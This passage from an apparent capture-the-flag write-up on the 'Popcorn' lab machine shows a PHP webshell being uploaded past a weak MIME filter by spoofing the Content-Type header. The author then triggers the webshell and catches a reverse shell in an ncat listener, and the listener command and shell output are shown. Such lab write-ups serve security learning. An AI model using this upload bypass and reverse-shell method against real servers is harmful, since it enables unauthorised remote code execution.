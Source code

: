 As seen above, there were some basic MIME and/or file extension filters in place. After some tampering, I learned a weak MIME content type filter was in place. However, after bypassing the MIME content type filter, I realized that the file extensions weren't being checked which is very important for securing PHP applications from remote code execution.

![](./images/popcorn-webshell-upload-success.png)

Notice how I only needed to change the `Content-Type` header to represent PNG content to bypass the MIME checking filter. From the response, it looked like my PHP webshell was successfully uploaded!

At this point, I needed the popcorn host to execute my PHP webshell to connect back to my netcat listener. I simply clicked on the placeholder for where my torrent thubnail was supposed to be uploaded to get my browser to send a web request to my webshell which in turn would make the web server execute it:

![](./images/popcorn-execute-webshell.png)

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:53290.
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 20:03:33 up 27 min,  0 users,  load average: 0.00, 0.00, 0.00
 USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 /bin/sh: can't access tty; job control turned off
 $
```
